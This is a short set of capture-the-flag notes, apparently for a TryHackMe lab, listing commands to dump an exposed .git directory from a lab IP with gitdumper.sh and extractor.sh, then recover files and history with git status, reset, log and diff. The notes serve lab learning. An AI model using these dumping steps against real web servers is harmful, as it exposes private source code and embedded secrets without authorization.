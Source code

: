 # # `Commands` -

1. To dump Files -

```bash
./gitdumper.sh http://10.10.177.234/.git/ /root/Documents/Try_Hack_Me/Git_Happens/
```

[site : output location]

2. To extract Inforamtion -

```bash
./extractor.sh /root/Documents/Try_Hack_Me/Git_Happens/ /root/Documents/Try_Hack_Me/Git_Happens/
```

[location of .git file : output location]

3. Recover source code/Shows deleted files-

```bash
git status
```

4. Restore to last commit -

```bash
git reset --hard
```

5. To see past commits -

```bash
git log
```

6. What Changed b/w two commits -

```bash
git diff [a] [b]
```

Will show what changed between two commits. It reads better if the older commit is a.